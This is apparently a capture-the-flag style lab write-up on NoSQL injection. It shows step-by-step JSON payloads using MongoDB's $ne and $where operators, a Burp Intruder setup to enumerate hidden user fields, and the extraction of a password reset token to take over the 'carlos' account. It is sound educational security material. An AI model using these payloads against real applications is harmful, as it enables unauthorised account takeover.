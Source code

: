 # 🧪 Field Enumeration to Full Account Takeover with NoSQL Injection

## Exploited a NoSQL injection flaw to enumerate hidden fields and extract a valid password reset token, leading to a seamless account takeover.

## 📘 Introduction

This lab demonstrates a NoSQL injection vulnerability in a MongoDB-backed login system. By abusing MongoDB operators like `$ne` and `$where`, we can bypass authentication checks, enumerate hidden user fields, and finally extract a password reset token to hijack an account. This step-by-step PoC reveals how NoSQL injections can lead to full account compromise when input validation and query construction are insufficiently secured.

---

## ⚠️ Disclaimer

This material is provided solely for educational purposes on authorized lab environments. Unauthorized testing or exploitation of systems without explicit permission is illegal and unethical. Always practice responsible disclosure and adhere to applicable laws.

---

## 🧩 Step-by-Step PoC

1. Access the Lab, try to sign in with username `carlos` and any random password, intercept the request with Burp Suite.

![1](https://github.com/user-attachments/assets/5db5158e-0f8e-49d7-bff9-7341434e48df) <br/>

2. Send the intercepted POST `/login` request to Repeater with body:

   ```json
   {
     "username": "carlos",
     "password": "test"
   }
   ```

   Response:

   ```
   Invalid username or password
   ```

![2](https://github.com/user-attachments/assets/b64ff556-c623-479a-86c6-6f19407b42c2) <br/>

3. Try bypass using the MongoDB not equal operator `$ne`:

   ```json
   {
     "username": "carlos",
     "password": { "$ne": "invalid" }
   }
   ```

   Response:

   ```
   Account locked: please reset your password
   ```

![3](https://github.com/user-attachments/assets/14a947d6-a252-462f-bf1f-a74e9172ce7f) <br/>

   Although the login is not bypassed, the `$ne` operator is accepted, confirming injection.

4. Add the `$where` parameter as `0` (false):

   ```json
   {
     "username": "carlos",
     "password": { "$ne": "invalid" },
     "$where": "0"
   }
   ```

   Response:

   ```
   Invalid username or password
   ```

![4](https://github.com/user-attachments/assets/054028a7-a68c-4b7d-b8b9-3ecd539b11b4) <br/>

5. Change `$where` to `1` (true):

   ```json
   {
     "username": "carlos",
     "password": { "$ne": "invalid" },
     "$where": "1"
   }
   ```

   Response:

   ```
   Account locked: please reset your password
   ```

![5](https://github.com/user-attachments/assets/adf73799-5539-4e94-aec2-2f77a01a08e3) <br/>

   This proves the `$where` clause is evaluated and injectable.

6. Enumerate user document fields with Intruder. Use the payload:

   ```json
   {
     "username": "carlos",
     "password": { "$ne": "invalid" },
     "$where": "Object.keys(this)[§§].match('^.{}.*')"
   }
   ```

   Attack setup:

   * Attack type: Cluster Bomb
   * Payload position 1 (§§): Numbers, from 0 to 20
   * Payload position 2 (§§): Brute force characters: `abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789` (min/max length 1)

   Interpretation:

   * Index 0: `_id` (default)
   * Index 1: `username`
   * Index 2: `password`

![6](https://github.com/user-attachments/assets/3fc45c03-7292-481f-aca4-71980a6aa95b) <br/>

   By incrementing the index, you discover all user fields, including a password reset token.

7. Capture the `GET /forgot-password` request in Proxy. This endpoint is related to password reset.

![7](https://github.com/user-attachments/assets/9e40da66-3ec6-4c12-af84-5dd468ced5a7) <br/>

8. Use Intruder with payload to extract token value:

   ```json
   {
     "username": "carlos",
     "password": { "$ne": "invalid" },
     "$where": "this.password.match('^.{}.*')"
   }
   ```

   Extracted token (example):

   ```
   zw81ejagwjes6l1wgpn
   ```

![8](https://github.com/user-attachments/assets/ea9261f8-5b50-4ed0-8f71-933f08298941) <br/>

9. Use the extracted token as a GET parameter in the forgot-password URL:

   ```
   /forgot-password?resetToken=zw81ejagwjes6l1wgpn
   ```

   You can now reset Carlos’s password and log in, solving the lab.

---

## 👋 Happy Hacking Goodbye Note

Congratulations on mastering this NoSQL injection challenge! Remember, the same techniques that let you exploit vulnerable apps can be used to defend them. Always hack ethically, report responsibly, and keep learning.

Happy hacking and stay curious!
— Aditya Bhatt ☠️🛡️

---
